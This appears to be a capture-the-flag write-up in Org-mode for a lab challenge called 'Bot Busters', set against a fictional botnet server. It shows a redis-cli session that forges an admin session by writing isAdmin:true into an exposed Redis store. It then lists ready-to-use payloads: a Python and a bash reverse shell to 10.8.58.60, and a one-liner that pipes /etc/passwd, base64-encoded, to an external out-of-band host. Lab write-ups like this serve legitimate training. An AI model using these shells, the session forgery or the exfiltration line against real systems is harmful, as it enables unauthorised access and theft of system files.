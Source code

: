 #+title: Bot Busters
#+AUTHOR: gabriel

* Intro
Get ready for an exciting mission! You need to join an operation to complete a critical mission to detect a botnet group lurking in the dark corners of the cyber world.

Recent cyber intelligence reports indicate that a group behind several DDoS attacks in the past is planning to launch several DDoS attacks in the near future. Many companies, institutions and organizations are known to be targeted. As a result of the analysis and research, a server used by the attackers was identified. It is thought that a botnet network is used through this server. We will reach the exact result after your research.

You will start your mission to uncover these attackers who have caused many services to collapse and chaos to reign. In order to stop the cyber attackers behind these botnet attacks, you will first need to take over their botnet site and server. This will stop the attacks and identify who their targets are.

This exciting mission will require the highest level of strategy and speed to use your technical knowledge to stop the cyber attack. Your courage, intelligence and skills will be the keys to combating the insidious threats of the cyber world.

* open ports
- 22
- 80
- 6379

    *GEt and modify the cookie value at REdis* ->
  #+begin_src sh
[10:09][]~ ✮ redis-cli -h blackbot.hv
blackbot.hv:6379> keys *
1) "df7e0133-17b0-4430-a1ef-3c0edcc2d85a"
blackbot.hv:6379> get df7e0133-17b0-4430-a1ef-3c0edcc2d85a
"{\"userID\":\"fa6d90c4-feb0-4a9c-af59-05aa6d014476\",\"username\":\"jon\",\"isA
dmin\":false,\"isPremium\":false}"
blackbot.hv:6379> set ded8d036-0285-4930-a69d-e083e13761da "{\"userID\":\"4204da
10-e68e-4020-8f68-c96d253bca71\",\"username\":\"jon\",\"isAdmin\":true,\"isPremi
um\":true}"
OK
blackbot.hv:6379>
  #+end_src

*SEt new value at redis* ->
: set ded8d036-0285-4930-a69d-e083e13761da "{\"userID\":\"4204da10-e68e-4020-8f68-c96d253bca71\",\"username\":\"jon\",\"isAdmin\":true,\"isPremium\":true}"


** payloads

*python3*
: import sys,socket,os,pty;s=socket.socket();s.connect(("10.8.58.60",6969));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("bash")

*bash*
: bash -i >& /dev/tcp/10.8.58.60/7777 0>&1

: cat /etc/passwd | base64 | curl -d @- facobjhzpdpvejleegrunnnhooul91vxo.oast.fun
